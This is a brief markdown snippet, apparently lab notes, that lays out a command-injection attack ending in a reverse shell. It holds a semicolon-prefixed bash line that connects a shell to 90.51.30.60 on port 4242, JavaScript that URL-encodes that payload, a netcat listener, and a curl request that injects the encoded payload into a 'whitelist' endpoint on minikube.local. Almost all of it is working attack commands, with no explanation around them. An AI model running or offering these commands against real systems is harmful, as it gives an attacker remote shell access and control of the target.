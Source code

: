 Reverse shell :

```sh
;/bin/bash -l > /dev/tcp/90.51.30.60/4242 0<&1 2>&1
```

Convert to url (JS) :

```js
encodeURIComponent(";/bin/bash -l > /dev/tcp/90.51.30.60/4242 0<&1 2>&1")
console.log(encodeURIComponent(';/bin/bash -c "/bin/bash -l > /dev/tcp/90.51.30.60/4242 0<&1 2>&1"'))
```

Listen with netcat

```sh
nc -lvp 4242
```

```sh
curl -k http://minikube.local/whitelist/%3B%2Fbin%2Fbash%20-c%20%22%2Fbin%2Fbash%20-l%20%3E%20%2Fdev%2Ftcp%2F90.51.30.60%2F4242%200%3C%261%202%3E%261%22
```
